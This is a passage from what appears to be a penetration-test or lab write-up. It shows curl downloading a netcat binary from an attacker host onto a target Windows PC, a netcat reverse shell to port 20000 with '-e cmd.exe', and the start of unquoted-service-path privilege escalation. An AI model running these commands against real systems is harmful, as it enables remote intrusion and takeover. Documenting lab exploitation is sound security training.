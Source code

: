 ```bash
curl http://10.50.55.63/nc64.exe -o c:\\windows\\temp\\nc-Incendium.exe
```

- I used curl here because it exists on the personal PC
- I put the file in the C:\Windows\Temp directory of the Personal PC

Next, I started listening for incoming connections on my attacking machine and executed the following command with the new netcat binary:

```bash
powershell.exe c:\\windows\\temp\\nc-Incendium3.exe 10.50.55.63 20000 -e cmd.exe
```

- This assumes that there’s a host 10.50.55.63 listening to port 20000 for incoming connections
- I tell netcat to execute cmd.exe when connected, so that we have a command prompt.

![Untitled](Personal%20P%20ec072/Untitled%2017.png)

- As you can see, this worked perfectly.
- Also, the current user seems to have the SeImpersonatePrivilege enabled. This can lead to Privilege Escalation.

---

### 8.0 Privilege Escalation with *Unquoted Service Path*

I used the following command to list non-default services:

```bash
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```

Results:

![Untitled](Personal%20P%20ec072/Untitled%2018.png)
